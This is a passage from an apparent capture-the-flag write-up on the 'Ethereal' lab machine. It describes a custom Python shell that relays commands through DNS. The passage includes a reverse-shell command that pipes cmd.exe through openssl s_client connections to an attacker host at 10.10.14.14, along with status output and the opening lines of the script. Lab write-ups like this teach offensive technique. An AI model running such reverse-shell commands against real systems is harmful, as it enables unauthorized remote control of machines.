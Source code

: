 To call it, I can now just run:

```

ethereal> quiet start cmd /c "c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"

```

### Adding Messages

I like to have a system that tells me what it’s doing. I’ll add in status messages throughout the shell. Now, for example, when I start the shell, it tells me what’s going on when I am waiting for startup:

```

root@kali# ./ethereal_shell.py 
[*] Starting DNS Sniffer on tun0 for target 10.10.10.106.
[*] Logging in and fetching state information.
[+] State information received.
ethereal>

```

Or exiting:

```

ethereal> exit
[*] Sending kill request.
[*] Received kill packet. Shutting down sniffer thread.

```

## Full Code

The final code is below, and I’ll post it on [my scripts git repo](https://gitlab.com/0xdf/ctfscripts).

```

  1 #!/usr/bin/env python3
  2 
  3 import requests
  4 import sys
  5 import time
  6 from bs4 import BeautifulSoup
  7 from cmd import Cmd
  8 from requests.auth import HTTPBasicAuth
  9 from scapy.all import *
 10 from threading import Thread
 11 
 12 
 13 kill_domain = "0xdf.0xdf."
 14 
 15 
 16 class dns_sniff(Thread):
 17 
 18     def __init__(self, interface='tun0', target_ip='10.10.10.106'):
 19         super().__init__()
 20         self.interface = interface
 21         self.target_ip = target_ip
 22 
 23 
 24     def run(self):
```